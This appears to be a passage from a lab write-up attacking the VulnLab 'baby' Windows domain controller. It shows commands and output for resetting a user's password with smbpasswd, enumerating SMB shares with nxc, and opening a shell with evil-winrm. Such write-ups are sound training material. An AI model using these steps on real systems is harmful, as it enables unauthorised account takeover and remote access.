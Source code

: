 - As we can see, Caroline needs to change the password

## Enumerating User Caroline

- For changing password we can use `smbpasswd`
- I tried `BloodyAD` and `net rpc` but both didnt work

```bash
┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# smbpasswd -U 'Caroline.Robinson' -r 10.10.67.242

Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user Caroline.Robinson on 10.10.67.242.

```

- now we have valid credentials and can login with `Caroline.Robinson`

```bash
┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# nxc smb baby.vl -u 'Caroline.Robinson' -p 'Start1234!' --shares                          
SMB         10.10.67.242    445    BABYDC           [*] Windows Server 2022 Build 20348 x64 (name:BABYDC) (domain:baby.vl) (signing:True) (SMBv1:False) 
SMB         10.10.67.242    445    BABYDC           [+] baby.vl\Caroline.Robinson:Start1234! 
SMB         10.10.67.242    445    BABYDC           [*] Enumerated shares
SMB         10.10.67.242    445    BABYDC           Share           Permissions     Remark
SMB         10.10.67.242    445    BABYDC           -----           -----------     ------
SMB         10.10.67.242    445    BABYDC           ADMIN$          READ            Remote Admin
SMB         10.10.67.242    445    BABYDC           C$              READ,WRITE      Default share
SMB         10.10.67.242    445    BABYDC           IPC$            READ            Remote IPC
SMB         10.10.67.242    445    BABYDC           NETLOGON        READ            Logon server share 
SMB         10.10.67.242    445    BABYDC           SYSVOL          READ            Logon server share 
                                                                                           

```

-  Now we can login via `winrm`

```bash
                                                                                                                                                                                                   
┌──(root㉿kali)-[/home/kali/vulnlab/baby]
└─# evil-winrm -u 'Caroline.Robinson' -p 'Start1234!' -i 10.10.67.242  

                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Caroline.Robinson\Documents> 

```
